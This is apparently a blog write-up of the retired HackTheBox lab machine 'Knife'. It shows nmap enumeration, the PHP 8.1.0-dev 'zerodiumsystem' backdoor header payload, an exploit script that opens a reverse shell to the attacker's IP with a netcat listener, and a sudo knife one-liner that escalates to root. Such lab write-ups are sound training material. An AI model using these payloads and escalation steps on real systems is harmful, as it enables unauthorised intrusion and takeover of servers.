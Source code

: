 ```yaml
---
layout: post
title: "HTB: Knife"
author: Andrew Cherney
date: 2023-02-19 20:18:57
tags: htb easy-box
icon: "assets/icons/knife.png"
post_description: "Simplicity at its finest. A quick backdoor exploit from a vulnerable php version, and then a trip to GTFOBins can root this box. Bare bones and to the point."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h2>Enumeration</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $nmap -sC 10.10.10.242
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-21 20:13 CST
Nmap scan report for 10.10.10.242
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http
|_http-title:  Emergent Medical Idea
```

<h2>Port 80 - http</h2>

![EMA front page](/img/knife/Knife_front_page.png)

I scour through some html and javascript code before checking the Wappalyzer add-on. This lets me see what is being used in the page, everything from CDNs and coding languages to OS and server versions (all dependent on how locked down the data leak is). 

<h2>User as james</h2>

<h3>Zerodium PHP</h3>

![php version](/img/knife/Knife_wappalyzer_php_version.png)

The version 8.1.0 of php (if the dev version) had a specific backdoor built in. If you add <code>User-Agentt: zerodiumsystem('commands');</code> as a header you can pass remote code to run on the underlying machine through php. [This github repo](https://github.com/flast101/php-8.1.0-dev-backdoor-rce) has two versions of the exploit for ease of use. 

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $python3 php-8.1.0-backdoor.py http://10.10.10.242 10.10.14.14 7777
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.242] 58574
bash: cannot set terminal process group (1038): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cd /home/james
cd /home/james
james@knife:~$ cat user.txt
cat user.txt
1bfa9885436-------------------
```


<h1>Root</h1>

<h2>GTFOBins</h2>

```bash
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Well this is a cut and dry easy box solution. GTFOBins will have a command to use for priv esc if I can use sudo with it. 

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
sudo knife exec -E 'exec "/bin/sh"'
whoami
root
cat /root/root.txt
fdafbecbde81---------------------
```

